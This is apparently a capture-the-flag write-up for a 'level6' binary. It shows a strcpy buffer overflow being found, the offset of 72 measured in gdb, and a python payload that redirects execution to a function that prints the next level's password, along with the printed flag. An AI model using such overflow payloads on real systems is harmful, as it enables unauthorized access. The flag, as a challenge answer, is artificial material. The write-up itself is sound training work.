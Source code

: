 We started by running the program without any arguments and encountered a segmentation fault:
```
$ ./level6
Segmentation fault (core dumped)
```
Next, we ran the program with a test argument, which resulted in a standard response:
```
$ ./level6 Heloooo
Nope
```
We ran the program a 3rd time r with a longer argument, which again resulted in a segmentation fault:
```
$ ./level6 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```
Disassembling the `main` function revealed a call to `strcpy` with the provided argument. The `strcpy` function is notorious for being vulnerable to buffer overflow attacks due to its lack of bounds checking.

From the `strcpy` man page:
>The strcpy() function is easily misused in a manner which enables malicious users to arbitrarily change a running program's functionality through a buffer overflow attack.

 Additionally, we discovered an unused function called `n()`:
 ```
 (gdb) info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
```
Upon disassembling the `n()` function, we found that it calls the `system` function with the argument "/bin/cat /home/user/level7/.pass":
```
0x08048454 <+0>:    call   0x80483b0 <system@plt>
```
This gives us a clear path to exploit the program by redirecting the program flow to the `n()` function.

We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
$ gdb ./level2 
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```
We find that the buffer size is 72

We crafted the payload to overflow the buffer and overwrite the return address with the address of the `n()` function (`0x08048454`), using little-endian format. The payload consists of 72 'A' characters followed by the address of `n()`.
```
$ ./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
